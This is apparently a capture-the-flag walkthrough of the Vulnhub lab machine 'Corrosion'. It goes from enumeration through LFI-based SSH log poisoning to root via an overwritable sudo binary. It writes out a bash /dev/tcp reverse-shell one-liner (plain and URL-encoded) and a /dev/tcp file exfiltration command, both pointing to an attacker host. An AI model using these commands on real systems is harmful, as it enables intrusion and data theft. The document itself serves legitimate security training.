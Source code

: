# Corrosion - Writeup

Corrosion is an easy machine from Vulnhub by Proxy Programmer.

Link to the machine: [https://www.vulnhub.com/entry/corrosion-1,730/](https://www.vulnhub.com/entry/corrosion-1,730/)
<br />

## Identify The Target

I'm using this machine on host-only. 
```
fping -agq 10.10.10.0/24

10.10.10.1
10.10.10.2
10.10.10.10
```
<br />

## Enumeration

We need to scan the target for open ports.
```
nmap -sV -sC -oN nmap.log 10.10.10.10

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Ubuntu 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0c:a7:1c:8b:4e:85:6b:16:8c:fd:b7:cd:5f:60:3e:a4 (RSA)
|   256 0f:24:f4:65:af:50:d3:d3:aa:09:33:c3:17:3d:63:c7 (ECDSA)
|_  256 b0:fa:cd:77:73:da:e4:7d:c8:75:a1:c5:5f:2c:21:0a (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-server-header: Apache/2.4.46 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:E5:F2:76 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<br />

## Enumerate the directories

When navigates to webserver we got `apache default page`.<br />
Run `gobuster`
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e -q -t 50 -u http://10.10.10.10 | tee go.log

http://10.10.10.10/tasks                (Status: 301) [Size: 310] [--> http://10.10.10.10/tasks/]
http://10.10.10.10/blog-post            (Status: 301) [Size: 314] [--> http://10.10.10.10/blog-post/]    	    
http://10.10.10.10/server-status        (Status: 403) [Size: 276]
```
<br />
We have `/tasks` and `/blog-post`,  Let's visit them.

![](pics/tasks.png)
<br />

![](pics/task2.png)
<br />

We see ``change permission for auth log``. It gives us an idea that We need to do **SSH log poisoning**. For that, we need local file inclusion.
So, Let's check `/blog-post`.

![](pics/blog.png)
<br />

Bruteforce directories.
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e -q -u http://10.10.10.10/blog-post 

http://10.10.10.10/blog-post/archives      (Status: 301) [Size: 323] [--> http://10.10.10.10/blog-post/archives/]
http://10.10.10.10/blog-post/uploads       (Status: 301) [Size: 322] [--> http://10.10.10.10/blog-post/uploads/]
```
<br />

![](pics/archives.png)
<br />

The `archives` directory had a php file named `randylogs.php`. But nothing in there.<br />
Fuzzing it for an LFI, and we found the parameter.

![](pics/fuzzing.png)
<br />

Read the `/etc/passwd` file from the server.

![](pics/etc-passwd.png)
<br />

In `/tasks/tasks_todo.txt`, The hint said: `Change permissions for auth log`. That means the `auth log` file doesn’t have proper permissions. 
So, we can read it.

![](pics/auth1.png)
<br />

## Log poisoning

> `auth.log` logs all the activity of SSH login attempts.

> `Log Poisoning` is the attempt to **inject** malicious input into the server log.
<br />

Since the file is PHP, if we inject PHP code, the server will execute it.<br />
We're going to use ssh to inject a PHP code as the username, and that will take input from the user and **execute commands**.

![](pics/php1.png)
<br />

Refresh `randylogs.php` page, and we injected our code.

![](pics/cmd1.png)
<br />

Executing commands: `http://10.10.10.10/blog-post/archives/randylogs.php?file=id`

![](pics/cmd2.png)
<br />

Let's get a reverse shell: [https://www.revshells.com/](https://www.revshells.com/)<br />
`nc -lnvp 5555`
<br />
`bash -c 'bash -i >& /dev/tcp/10.10.10.2/5555 0>&1'`
<br />
URL-encoded: `bash%20-c%20'bash%20-i%20%3E&%20/dev/tcp/10.10.10.2/5555%200%3E&1'%0A`
<br />
And we have a shell.

![](pics/shell)
<br />

After a while, I found `/var/backups/user_backup.zip` , Let's download it.<br />
Open a netcat listener on the local machine: `nc -lnvp 5566 > user.zip`.<br />
On the target machine: `cat user_backup.zip > /dev/tcp/10.10.10.2/5566`.<br />
We have to crack the password of the file and extract the contents.

![](pics/crack.png)
<br />

We have the password of the user `randy`. Logged in as `randy`.

![](pics/randy.png)
<br />

We got the `user.txt`.

![](pics/user.png)
<br />

## Privilege Escalation
 
Checking the sudo permissions

![](pics/sudo.png)
<br />

Here, we have got a binary that the user can run as sudo, with SUID bit ON, which means this binary will be running as root.<br />
But, root owns this file, that disallows us to edit the file.

![](pics/suid1.png)
<br />

The user owns the directory which means we can replace the content of the binary. Hence, we can use the **C** source file to write a code.

![](pics/c.png)
<br />

Let's modify the **C** file.

![](pics/nano2.png)
<br />

Compile it, and execute it. 
```
gcc c.c -o easysysinfo
sudo /home/randy/tools/easysysinfo
```
<br />

We're root. 

![](pics/root.png)
